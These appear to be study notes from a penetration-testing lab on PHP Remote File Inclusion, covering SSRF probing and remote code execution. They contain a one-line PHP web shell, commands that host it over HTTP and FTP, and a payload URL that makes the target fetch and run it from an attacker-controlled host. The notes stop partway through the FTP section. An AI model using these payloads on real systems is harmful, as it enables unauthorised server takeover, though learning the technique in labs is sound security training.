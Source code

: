 - it allows 
  - enumerating local-only ports and web applications (i.e. SSRF)
  - gaining remote code execution by including a malicious script that we host

- any functions that allows including remote URLs usually also allows including local ones but LFI may not be an RFI as 
  - the vulnerable function may not allow including remote URLs 
  - you may only control a portion of the filename and not the entire protocol wrapper (ex: http://, https://, ftp://)
  - configuration may prevent RFI altogether, as most modern web servers disable including remote files by default 

- check whether `allow_url_include=On` 
- thought it is On, this may not always be reliable
- try and include a URL
- try to include a local URL (http://127.0.0.1:80/index.php) 

```url
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

## RCE with RFI


```sh
thnwht@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
### Through HTTP 

- host that script and include it through the RFI vulnerability
- the exploit server should be port 80 or 443
- server at local computer
```sh
thnwht@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

- get request to the URL 
```url
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

- at the exploit server, will get a GET request to shell.php file 
```sh
thnwht@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -
```

### Through FTP

- host the script with FTP protocol 

```sh
thnwht@htb[/htb]$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

